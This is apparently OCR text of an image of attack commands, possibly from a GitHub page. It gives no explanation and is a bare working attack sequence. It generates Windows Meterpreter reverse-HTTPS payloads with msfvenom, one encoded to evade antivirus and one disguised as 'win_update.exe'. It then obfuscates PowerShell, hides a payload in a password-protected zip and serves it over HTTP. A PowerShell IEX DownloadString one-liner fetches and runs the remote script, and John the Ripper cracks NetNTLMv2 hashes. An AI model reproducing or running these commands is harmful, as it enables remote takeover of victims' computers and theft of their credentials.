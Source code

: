 msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -e x86/shikata_ga_nai -i 10 -f exe -o payload_encoded.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f exe -o ~/win_update.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f psh-cmd -o payload.ps1

python3 -m http.server 8080

Import-Module ./Invoke-Obfuscation.psd1
Invoke-Obfuscation


http://192.168.1.128:8080/update_pacth.exe

zip --password SuaSenhaForte payload_protegido.zip payload_encoded.exe

IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.128:8080/payload.ps1')


john --wordlist=wordlist_personalizada_advanced.txt --format=netntlmv2 hash_john.txt

ls /home/ray_king/wordlist_personalizada_advanced.txt


